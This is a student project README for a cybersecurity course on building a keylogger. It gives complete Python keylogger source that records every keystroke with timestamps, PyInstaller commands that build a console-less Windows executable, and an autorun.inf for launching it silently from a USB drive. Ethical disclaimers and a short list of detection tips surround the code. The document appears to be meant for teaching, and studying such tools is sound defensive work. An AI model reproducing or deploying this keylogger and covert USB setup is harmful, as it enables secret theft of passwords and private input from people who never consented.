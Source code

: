 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  
### **Date:** 01-24-2025  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard
from datetime import datetime

def keyPressed(key):    
    """ Handles key press events, logs the key pressed along with the timestamp. """
    
    print(str(key))  # Print the key pressed for debugging
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Log printable character keys with timestamp
            char = key.char
            logKey.write(f"{datetime.now()} - {char}\n")
        except AttributeError:
            # Log special keys with timestamp in brackets
            logKey.write(f"{datetime.now()} - [{str(key)}]\n")

if __name__ == "__main__":
    # Initialize the key listener
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()  # Start listening
    input()  # Keep the script running
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.  

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.  

---

##  **How to Detect & Prevent Keyloggers**  
- **Disable AutoRun & AutoPlay** to prevent automatic execution.  
- **Use antivirus & endpoint security tools**.  
- **Monitor running processes** for suspicious activity.  
- **Encrypt sensitive keystrokes** to prevent logging.  

---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is for educational purposes only and must not be used for malicious activities.  
